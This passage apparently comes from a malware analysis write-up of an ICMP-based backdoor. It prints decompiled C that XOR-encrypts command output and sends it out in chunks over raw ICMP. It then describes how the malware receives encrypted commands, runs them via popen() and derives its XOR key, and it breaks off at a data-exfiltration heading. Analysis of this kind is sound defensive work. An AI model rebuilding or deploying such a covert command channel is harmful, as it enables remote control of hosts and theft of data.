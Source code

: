 ```
    sVar3 = strlen((char *)local_c7d8);
    for (local_24 = 0; (int)local_24 < (int)sVar3; local_24 = local_24 + 1) {
      local_c7d8[(int)local_24] = local_c7d8[(int)local_24] ^ local_c7e0[local_24 & 7];
    }
    local_28 = 0x63c0;
    while ((uVar6 = (ulong)(int)local_28, sVar3 = strlen((char *)local_c7d8), sVar3 <= uVar6 &&
           (local_c7d8[(int)(local_28 - 1)] == 0))) {
      local_28 = local_28 - 1;
    }
    local_20 = 0;
    local_1c = local_28;
    local_54 = (int)((ulong)(long)(int)local_28 >> 4) + 1;
    for (local_24 = 0; (int)local_24 < (int)local_54; local_24 = local_24 + 1) {
      memset(local_c808,0,0x20);
      local_c808[0] = 8;
      local_58 = local_1c;
      if (0x10 < local_1c) {
        local_58 = 0x10;
      }
      sprintf(local_c800,"%04d%04d",(ulong)(local_24 + 1),(ulong)local_54);
      memcpy(auStack_c7f8,local_c7d8 + local_20,(long)(int)local_58);
      local_20 = local_20 + local_58;
      local_1c = local_1c - local_58;
      sleep(1);
      sendto(local_2c,local_c808,(long)(int)local_58 + 0x10,0,&local_c818,0x10);
    }
  } while( true );
}
```

The core functionality of this is to listen for ICMP packets.

This malware uses two different ICMP packets:

- **Initialization packets** (bytes `0x0c` and `0x23`):
    - Sets up encryption keys using random values
    - Responds with a beacon packet
- **Command packets** (bytes `0x13` and `0x2a`):
    - Receives encrypted commands
    - Executes them via `popen()`
    - Sends encrypted results back

## Encryption Scheme

Uses a simple XOR cipher with an 8-byte key derived from:

- 2 bytes from the incoming packet
- 2 random bytes generated locally
- 4 XOR-combined bytes from these values

## Data Exfiltration
### Key Derivation and Decryption Process

